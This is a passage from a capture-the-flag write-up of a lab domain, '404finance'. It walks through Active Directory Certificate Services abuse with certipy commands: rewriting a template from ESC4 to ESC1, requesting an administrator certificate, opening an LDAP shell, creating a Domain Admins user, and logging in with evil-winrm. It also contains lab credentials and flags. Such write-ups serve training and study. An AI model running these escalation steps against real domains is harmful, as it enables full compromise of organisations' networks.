  
</p>
- Using Bloodhound again, we discover that we might be able to leverage an ESC attack in order to elevate our privileges. We also recalled that ESC vulnerabilities were mentioned in the emails earlier.
<p align="center">
  
</p>
- Knowing that, we attempted to enumerate vulnerable certificate templates, and what attacks we might be able to perform. We discovered that the `Vuln-ESC4` certificate template was vulnerable to ESC4: 
```bash
certipy find -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip '10.1.78.184' -vulnerable -enabled -hide-admins
```
<p align="center">
  
</p>
- In short, ESC4 happens when we have ACLs over a certificate template that allow us to modify its attributes, thus altering its configuration. The end goal is usually to make the template vulnerable to ESC1 then exploiting ESC1, which we will be doing shortly.

- First, we modified the template to a vulnerable a vulnerable state by changing its configuration: 
```bash
certipy template -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip '10.1.78.184' -template 'Vuln-ESC4' -write-default-configuration
```
<p align="center">
  
</p>
- Then we looked up again the vulnerabilities on this newly edited template and found out that it was now vulnerable to ESC1:
```bash
certipy find -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip '10.1.78.184' -vulnerable -enabled -hide-admins
```
<p align="center">
  
</p>
- Hence, we could abuse ESC1 and request a certificate to authenticate as the administrator user: 
```bash
certipy req -u 'svc.services@404finance.local' -p 'S3rv1cePower2024!' -dc-ip '10.1.78.184' -target 'DC-404.404finance.local' -ca '404finance-DC-404-CA' -template 'Vuln-ESC4' -upn 'administrator@404finance.local' -sid 'S-1-5-21-2956725473-317782918-2795636496-500'
```
<p align="center">
  
</p>
- Note: we could not directly authenticate using our certificate, likely because PKINIT was not available/enabled on the target, hence why we switched to an alternative solution.
<p align="center">
  
</p>
- Following that, we gained a shell by authenticating with our certificate via LDAP. To Achieve domain compromise, we created a new user and added him to the Domain Admins group:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.1.78.184 -ldap-shell
whoami
add_user hacker
add_user_to_group hacker "Domain Admins"
```
<p align="center">
  
</p>
- Finally, we logged in as the `hacker` user and collected the last flag:
```bash
evil-winrm -i 10.1.78.184 -u hacker -p 'nU(ez4Tgk2.g?{T'
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>
# Trophy 
---
**User.txt → `FLAG{SafeDeposit_Unlock_404Finance_Trust2025}`**  

**Root.txt → `FLAG[404Finance_ROOT_Domination]`**

# Lessons Learned
---
- When attempting to authenticate with a certificate (`.pfx`), if we get the following error: 
```bash
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
- It may come from PKINIT not being supported by/available on the DC.
- Therefore, we can use this alternative (LDAP shell):
```bash
certipy auth -pfx administrator.pfx -dc-ip [DC IP] -ldap-shell
```
